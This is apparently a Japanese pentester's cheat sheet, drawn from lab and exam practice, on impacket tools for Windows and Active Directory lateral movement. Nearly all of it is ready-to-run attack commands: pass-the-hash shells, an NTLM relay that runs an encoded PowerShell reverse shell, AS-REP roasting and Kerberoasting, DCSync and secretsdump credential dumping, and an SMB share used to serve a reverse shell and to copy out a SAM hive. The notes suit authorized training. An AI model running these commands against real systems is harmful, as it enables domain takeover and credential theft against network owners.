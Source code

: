 # impacket
psexecやsmbserverやwmiexec等、WindowsにおけるLateral Movementにつかえるものがいろいろ入っている。

## PsExec
impacketの中に入っている機能の一部。  
セッションの確立に使える。  
Lateral Movementに利用するには、以下の3つの条件を満たしている必要がある。  
1. psexecsvc.exeをC:\Windowsディレクトリに書き込める状態であること(リモートアクセス後に書き込み権限が必要ということ)
2. リモートホスト上にサービスを作成して起動できる状態であること
3. 要求されたプログラム/コマンドをpsexecsvc.exeの子プロセスとして実行できること

## コマンド集

1. PtHを使って管理者権限のシェルを取る。この時、NTLMハッシュの形式は**LMハッシュ:NTハッシュ**の形式になっている。  
NTLMハッシュのみを使用する場合は、LMハッシュ部分は0で埋めておく。
```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

2. wmiexecを使ってPtWを行う
```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
``

3. Net-NTLMv2 relay攻撃を行うため、中継元のWindows端末からdirなどでSMB接続をこの端末にさせ、コマンドを192.168.201.212という横展開先に送り付ける。  
これで、192.168.201.212上でPowerShellのリバースシェルコマンドを実行してシェルを取れる。-encの後ろはb64
```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.201.212 -c "powershell -enc JABjAGwAaQBlAG..."
```

4. AS-REP Roastingの攻撃をADに対して実行する。ここで出力されたユーザ名はKerberos preauthenticationが無効になっていることを示し、AS-REQ Roasting攻撃に脆弱な可能性があることを示す。  
-dc-ip => DCのIPアドレスを指定  
-outputfile => AS-REPハッシュがhashcatの形式で保存される出力ファイルの名前を入力する。  
-request => TGTを要求する  
domain/user => 認証のターゲットにするユーザとドメイン名
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```

4.1 ユーザ名をLdap経由で取得した後、匿名でそのユーザのAS-REPハッシュが取得できないかを調べる。  
ユーザ名は事前に列挙してからリストを作成してパスワードスプレーをする。
```
sudo impacket-GetNPUsers -usersfile ./usernames.txt -no-pass -dc-ip <targetIP> htb.local/ > asrep-roasting
```

4.2 ドメインユーザのパスワードが分からないけどハッシュ値はわかるとき。
```
# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

5. Kerberoastingを実行するために、TGSを取得してhashcatで解析できる形でサービスチケットのハッシュを出力する。
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

6. DCSYNC攻撃をkaliからターゲットのwindowsに対して実行する。  
ここのユーザは、ドメイン上でDCSyncの権限をそもそも持っている必要があり、そのユーザの権限を借りてkaliからDCSyncの要求をしている点に注意。  
-just-dc-userの引数にターゲットのユーザ名daveを、dcsyncする際に要求を送る側には権限が必要なので、その権限を持つユーザをcorp.com/jeffadminとしてる。  
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
もしくは
```
impacket-secretsdump -just-dc htb.local/hoge:password123@10.10.10.161
```

7. impacketを使ってNTLMハッシュでAdministratorユーザとしてセッションをとる。横展開で使える。
```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.209.73
```

8. WindowsのシャドウコピーからダンプしたバックアップファイルをKaliのローカルで解析して資格情報を抽出する。これでNTLMハッシュやKerberosのキーが取得できる。
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

9. SMBサーバとして起動する。
```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```  
以下をKaliで行うと、ターゲットWindows上で//<kali_IP>/evil/hoge.exeとしてreverseshellを実行できる。
```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support evil $PWD
```

Kali側でサーバとして待ち受けてからWindwos側で以下みたいなコマンドをやるとファイルをコピーして送信できる。
```
copy C:\Users\THMBackup\sam.hive \\10.13.58.5\public\ \\10.13.58.5\public\ 
```

10. SAMやSYSTEMからダンプしたハッシュをもとに、kaliからDC等のマシンへpsexecでシェルをとれる。ターゲットがwin-rmを許可していないときとかはこっちで接続。
```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc tom_admin@10.10.127.140
```

11. windows環境でSQLとかを見つけて認証情報も持っていれば、mssqlclientでアクセスできる。  
evil-winrmやsmbでアクセスできないときに便利。
```
impacket-mssqlclient oscp.exam/sql_svc@10.10.157.148 -windows-auth
```